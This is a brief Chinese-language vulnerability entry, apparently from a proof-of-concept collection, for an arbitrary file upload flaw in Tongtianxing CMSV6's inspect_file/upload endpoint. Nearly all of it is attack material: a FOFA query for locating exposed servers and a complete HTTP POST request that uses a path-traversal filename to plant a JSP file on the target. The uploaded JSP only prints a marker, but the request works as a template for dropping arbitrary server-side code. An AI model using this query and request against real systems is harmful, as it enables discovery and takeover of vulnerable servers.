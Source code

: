 ## 通天星-CMSV6-inspect_file-upload存在任意文件上传漏洞


## fofa
```
body="./open/webApi.html"||body="/808gps/"
```

## poc
```
POST /inspect_file/upload HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 226
Content-Type: multipart/form-data; boundary=2e7688d712bcc913201f327059f9976b

--2e7688d712bcc913201f327059f9976b
Content-Disposition: form-data; name="uploadFile"; filename="../707140.jsp"
Content-Type: application/octet-stream

<% out.println("007319607"); %>
--2e7688d712bcc913201f327059f9976b--
```

![image-20240524224902984](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405242249085.png)
